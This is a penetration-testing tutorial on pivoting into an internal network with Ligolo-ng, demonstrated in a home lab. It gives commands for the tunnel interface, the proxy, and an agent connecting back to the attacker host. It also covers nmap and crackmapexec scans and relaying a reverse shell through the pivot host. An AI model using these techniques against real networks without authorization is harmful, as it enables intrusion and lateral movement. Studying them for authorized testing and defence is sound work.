# Pivoting and ligolo-ng

**What is Pivoting and Why is it Important in Cybersecurity?**

Pivoting is a technique used by attackers to access other parts of a network through a compromised system. After gaining initial access, attackers use this system as a bridge to explore and target more machines or sensitive data.

#### Why is Pivoting Useful?

* **Bypass Restrictions:** Attackers can access systems hidden behind firewalls or isolated networks.
* **Expand Access:** It allows moving deeper into the network to find valuable targets.
* **Avoid Detection:** Using the compromised system’s IP makes it harder to trace the attacker.

Pivoting is crucial for attackers during lateral movement and demonstrates the importance of strong internal security measures.

#### What Are We Talking About?

Let’s discuss a possible scenario to understand pivoting better. Imagine we are conducting a **penetration test** on a target website. During the process, we successfully gain a foothold on the system. Upon inspecting the compromised server, we notice that it has two or more network interface cards (NICs).

This discovery likely indicates the presence of an **internal network**. However, depending on the pentest environment, this might not always be a direct internal network—it could involve multiple layers or, in some cases, no internal network at all. Let’s clarify this with a practical example:

* Our attack machine’s IP is **192.168.1.100**.
* The target web server’s IP is **192.168.1.200 and 192.168.2.200**.

Upon investigation, we find that the server has a second NIC assigned to the IP **192.168.2.200**. This means the target server is connected to another network, **192.168.2.0/24**, which is part of the scope of our pentest.

The problem? **We cannot directly access the 192.168.2.0/24 network from our attack machine.**

#### How Does Pivoting Help?

As penetration testers, we can use **pivoting** to solve this issue. By leveraging the compromised victim host, we can:

1. **Scan the 192.168.2.0/24 network** to discover other hosts.
2. **Search for vulnerabilities** within that network.

This technique allows us to extend our reach and perform a thorough assessment of the target environment.

Thinking roughly like the diagram below can help us understand the logic of pivoting

<figure><figcaption></figcaption></figure>

There are many techniques that can be used for pivoting, and several advanced tools have been developed for this purpose. SSH tunneling can be done using tools like Chisel, Ligolo, Metasploit, etc. In today’s post, we will be using the Ligolo-ng tool to perform pivoting.

#### Downloading

The working principle of Ligolo-ng is that we deploy an agent on the foothold host, allowing us to hop from our own machine to the victim host’s other network. Therefore, we will need to upload the appropriate agent file based on the operating system of the foothold host. Below is the link to the Ligolo-ng GitHub repository: \
[https://github.com/nicocha30/ligolo-ng](https://c0nfig.gitbook.io/mynotes/toolset/pivoting-and-ligolo-ng)

The network I set up in my lab is a bit different and looks like this:

* Kali Linux: 192.168.1.14
* Windows: 192.168.1.13 and 10.0.2.7


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And normally, we cannot access or scan the 10.0.2.7 host from our Linux device.

<figure><figcaption></figcaption></figure>

Now, let's begin using Ligolo-ng.

At this point, it's important to mention that when using Ligolo-ng, we add an additional **interface** to our attack host. Unlike other pivoting techniques, such as Chisel or Metasploit, where we perform proxy-based pivoting and need to configure proxy settings, with Ligolo-ng, since we add an interface, we don’t need to worry about dealing with proxies.


<figure><figcaption></figcaption></figure>

```bash
┌──(user㉿kali)-[~/tools/ligolo]
└─$ sudo ip tuntap add  user user mode tun ligolo

```

```bash
┌──(user㉿kali)-[~/tools/ligolo]
└─$ sudo ip link set ligolo up
```

As we saw above, we add an interface named **ligolo** and set its state to **up**.

Now, let's start the Ligolo-ng tool on our attack host and then move on to our Windows machine.

<figure><figcaption></figcaption></figure>

```bash
┌──(user㉿kali)-[~/tools/ligolo]
└─$ ./proxy -selfcert
```

<figure><figcaption></figcaption></figure>

```cmd
agent.exe -connect 192.168.1.14:11601 -ignore-cert

```

After running this command, we should be able to see that our Windows device has been added to Ligolo's interface.

<figure><figcaption></figcaption></figure>

Now, in Ligolo's interface, we need to type **session** and select the Windows session.

<figure><figcaption></figcaption></figure>


Now, we need to add routing for the **10.0.2.0/24** network to the Ligolo interface.

<figure><figcaption></figcaption></figure>

Finally, typing **start** in the Ligolo interface will begin the pivoting process.

<figure><figcaption></figcaption></figure>

Now, let's see what we can do with the **10.0.2.7** IP.

<figure><figcaption></figcaption></figure>

Since this is my home lab and my resources are limited, I can only set up a few VMs. However, in real-life scenarios, questions such as "Which devices are present in a /24 network?" and "What vulnerabilities do they have?" need to be answered.

For example, to check which devices are **UP** in the network and save them to a file, we can use the following command:

```bash
sudo nmap 10.0.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5 > up_host.txt
```

OR

```zsh
┌──(user㉿kali)-[~/tools/ligolo]
└─$ crackmapexec smb 10.0.2.0/24   
SMB         10.0.2.7        445    DESKTOP-E9G6CV2  [*] Windows 10 / Server 2019 Build 19041 x64 (name:DESKTOP-E9G6CV2) (domain:DESKTOP-E9G6CV2) (signing:False) (SMBv1:False)
```

#### Found another decive how can we get reverse shell

Now let's say we find a vulnerability on a device in the network we are pivoting through, such as an exploit or RCE. How can we obtain a reverse shell from it? As we know, the device in that network has no direct connection to us. In this case, we will use the pivot host. First, we need to add a listener to the Ligolo-ng interface.

<figure><figcaption></figcaption></figure>

Now, by doing this, we are telling the pivot host to forward a reverse shell coming to its port 1234 to our port 4444.

Now, let's start listening on port 4444 with `nc` (Netcat).

<figure><figcaption></figcaption></figure>


Now, let's say we find a reverse shell on a device in the 10.0.2.0/24 network (I'll be using nc64.exe). In this case, the command should be as follows:

<figure><figcaption></figcaption></figure>

Then, we can see the connection come to our attack host, where we are listening.

<figure><figcaption></figcaption></figure>

To wrap things up, once we've pivoted and discovered a new network, there are plenty of opportunities to dive deeper and identify any vulnerabilities. Pivoting allows us to expand our reach into different networks and uncover weaknesses that might otherwise go unnoticed. By using tools like Ligolo-ng and learning techniques like reverse shells and network scanning, we can gain broader access and improve our penetration testing skills. The key is knowing how to navigate these networks effectively and stay one step ahead in the process.

That's it!

[\
](https://c0nfig.gitbook.io/mynotes/htb-academy/password-attacks-lab-medium)
